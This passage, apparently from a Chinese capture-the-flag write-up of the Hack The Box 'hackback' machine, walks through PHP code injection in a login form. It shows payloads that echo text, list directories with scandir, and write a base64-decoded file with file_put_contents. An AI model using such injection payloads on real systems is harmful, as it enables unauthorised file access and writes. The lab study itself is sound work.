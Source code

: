 这只单单是 admin.hackback.htb 子域名的登陆页面获取了以上信息...

继续对 Gophish 五大模块中获得到的域名进行分析...

```
www.hackthebox.htb
www.twitter.htb
www.paypal.htb
www.facebook.htb
```

这四个域名都添加到 DNS...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSk6wFVbdcHkibA0OlX1GJYAG2I6nuMZLyCcE5VUib3jZbHQ59Gnk2qKyA/640?wx_fmt=png)

先分析第一个...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSYFUsMFibTaC3ia9ziaKtGrjfTWgvOgRBxjQJYicMWWaLwsuGZPdWZiayicsQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSoTMKdiatJeQXszuZNL5dbibib0RD7XDm37zjAnVNaLLniaiaoam2vEcicEYw/640?wx_fmt=png)

可以看到，当我在 www.hackthebox.htb 的页面输入用户名密码... 在之前的注入中都能显示出来..

测试后，只有 show+session 才可以显示出来...

这里 list 和 show 都是 php 中的命令... 这里进行了 php 注入的测试...

```
emile输入：<?php echo "dayu"; ?>
password输入：<?php echo "dayu123"; ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicS0jFGspCXfImm5Rubn14oMAQTWbdticIoI8ksT2oN0Novk5or3mmPjIw/640?wx_fmt=png)

说明存在 php 注入，可以利用 php 进行写入和读取.. 测试看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSnxKl3ytG6rkibQ9YibAbcicyxDyl3yWR43aexNI9euQiacTrztNVUGAZ3Q/640?wx_fmt=png)

当我在 www.hackthebox.htb 页面 passwd 输入：

```
<?php echo print_r(scandir($_GET['dir'])); ?>
```

输出的是 dir 查询到本目录下存在的文件信息... 可以读取... 继续测试写入

利用 file_put_contents 在目标上写入文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSdSMwqibicKT3HXkmBZoW7uYsibMDpNY4aaicv3eicxicicewdmsFXdJP5MtLw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSibRI8NL48ULJ8Fl9HcicabWAt0XPUttURicIkumxJlc3R1sv7P3AEoVSw/640?wx_fmt=png)

在 password 输入：

```
<?php $f = "ZGF5dSBkYXl1IGhlbGxvCg=="; file_put_contents("dayu.txt", base64_decode($f)); ?>
```

已经成功写入了该文件...
